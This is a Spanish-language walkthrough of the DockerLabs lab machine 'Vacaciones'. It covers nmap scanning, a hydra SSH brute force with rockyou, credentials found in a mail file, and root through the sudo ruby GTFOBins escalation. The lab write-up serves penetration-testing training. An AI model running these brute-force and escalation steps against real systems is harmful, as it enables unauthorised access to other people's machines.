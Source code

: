 
plataforma: https://dockerlabs.es/#/
Mirror: https://mega.nz/file/YCEGAISD#y6iWUG_auH4vUApClb9ix7H6JmOCKm4vAYS2TjQn59g
Nombre: Vacaciones
Dificultad: muy fácil



1 comprobamos si tenemos docker instalado de no ser así lo instalamos

```sh fold:"Comprobar si docker está instalado"
docker -v
```

```sh fold:"Instalacion de docker"
sudo apt install docker.io
```

Ahora levantamos la maquina:

```sh fold:"Levantamos la maquina en docker"
sudo bash auto_deploy.sh vacaciones.tar 
```


Desplegamos la máquina:

![[Dockerlabs - Vacaciones - Despliegue me maquina.png]]

Hacemos un ping para comprobar conectividad y sistema operativo:

ping 172.17.0.2       
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.154 ms


ttl=64 --> maquina Linux

ahora vamos a lanzar nmap
```sh fold:"Nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.17.0.2
```



![[Dockerlabs - Vacacioens - Nmap result.png]]

puertos
puerto 22 ssh
puerto 80  http

vamos a lanzar el scrip de nmap para cada puerto:

puerto 80:
```sh fold:"Scrip vulnerabilidades de Nmap puerto 80"
sudo nmap --script "vuln" -p80 172.17.0.2 
```

Descubierto:   After NULL UDP avahi packet DoS (CVE-2011-1002).
![[Dockerlabs - Vacacioens -  Script vbuln p 80.png]]

Ahora lanzamos el del puerto 22:

```sh fold:"Scrip vulnerabilidades de Nmap puerto 22"
sudo nmap --script "vuln" -p22 172.17.0.2 
```


Descubrimos la misma vulnerabilidad
![[Dockerlabs - Vacacioens -  Script Vulnerabilidad P22.png]]
no parece que podamos explotar nada


![[Dockerlabs - Vacacioens -  Vacaciones web.png]]

Al parecer no hay nada en la web:
Vamos a ver el código fuente:

![[Dockerlabs - Vacaciones - Codigo Fuente.png]]
y nos encontramos un mensaje:

<!-- De : Juan Para: Camilo , te he dejado un correo es importante... -->
encontramos 2 usuarios:
- Juan
- Camilo


Alguno de estos usuarios podría estar en el sistema con acceso por SSH (puerto 22)

Como no conocemos la contraseña, solo podemos hacer fuerza bruta con Hydra





```sh fold:"Fuerza bruta con Hydra usuario camilo"
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![[Dockerlabs - Vacaciones - Hydra p 22 usuario camilo.png]]

User: camilo  
password: password1


intentamos hacer login por ssh

```sh fold:"ssh acces con camilo como usuario"
ssh camilo@T172.17.0.2
```

acceso con camilo:
![[Dockerlabs - Vacaciones - acceso por ssh usuario camilo.png]]

## escalada de privilegios:
sudo -l
[sudo] password for camilo: 
Sorry, user camilo may not run sudo on 2f317d25df18.


```sh fold:"Revisar si tenemos permiso de escritura en /etc/passwd"
find / -writable -type f 2>/dev/null |grep '/etc/passwd' && ls -lah /etc/passwd
```
No result

```sh fold:"Revisar binarios que se puedan explotar"
find  / -perm -4000 2>/dev/null  
```

No result

Seguimos buscando
find / type f -name "*.txt" todos los ficheros txt:


![[Dockerlabs - Vacaciones - Fichero de correo encontrado.png]]

nos llama la atención este fichero  correo.txt que si tenemos acceso, vamos a abrirlo

![[Dockerlabs - Vacacioens -  Contenido fichero correo.png]]

Contenido:
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb

Obtenemos una contraseña vamos a probarla con el usuario root:
![[Dockerlabs - Vacaciones - Intento acceso rrot.png]]

Pero hno accedemos
también tenemos el usuario Juan vamos a probar con este usuario:

Ahora is tenemos acceso con el usuario Junan:
![[Dockerlabs - Vacaciones - Acceso usuario Juan.png]]



$ sudo -l
Matching Defaults entries for juan on 2f317d25df18:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on 2f317d25df18:
    (ALL) NOPASSWD: /usr/bin/ruby

Buscamos esto en gyfobins:

![[Dockerlabs - Vacacioens -  Gtfobbins ruby sudo access.png]]

ejecutamos este comando
y conseguimos acceso root
![[Dockerlabs - Vacaciones - Root access.png]]


ahora vamos a  eliminar la maquina pulsando Ctrl+C
![[Dockerlabs - Vacacioens -  Eliminar la maquina.png]]

Maquina resuelta completamente


